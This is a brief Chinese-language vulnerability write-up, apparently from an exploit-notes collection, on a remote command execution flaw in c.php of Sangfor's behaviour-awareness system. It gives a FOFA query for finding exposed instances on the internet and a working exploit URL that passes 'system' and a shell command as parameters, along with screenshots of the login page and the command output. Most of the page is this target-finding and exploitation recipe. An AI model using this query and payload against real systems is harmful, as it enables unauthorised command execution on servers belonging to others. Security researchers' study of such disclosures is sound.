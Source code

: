# 深信服 行为感知系统 c.php 远程命令执行漏洞

## 漏洞描述

深信服 行为感知系统  c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

```
深信服 行为感知系统
```

## FOFA

```
body="isHighPerformance : !!SFIsHighPerformance,"
```

## 漏洞复现

登录页面如下



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091914752.png)



访问漏洞Url



```plain
/tool/log/c.php?strip_slashes=system&host=ipconfig
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091914059.png)